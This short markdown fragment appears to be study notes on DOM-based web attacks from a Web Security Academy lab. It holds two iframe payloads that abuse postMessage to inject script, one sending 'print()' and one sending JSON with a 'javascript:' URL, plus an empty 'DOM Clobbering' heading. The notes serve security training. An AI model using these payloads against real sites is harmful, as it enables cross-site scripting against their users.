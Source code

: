 ## Web Messages

```html
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">
```
Sending JSON
```html
<iframe src="https://0a9600410499f92a815ad98b006a002c.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```
## DOM Clobbering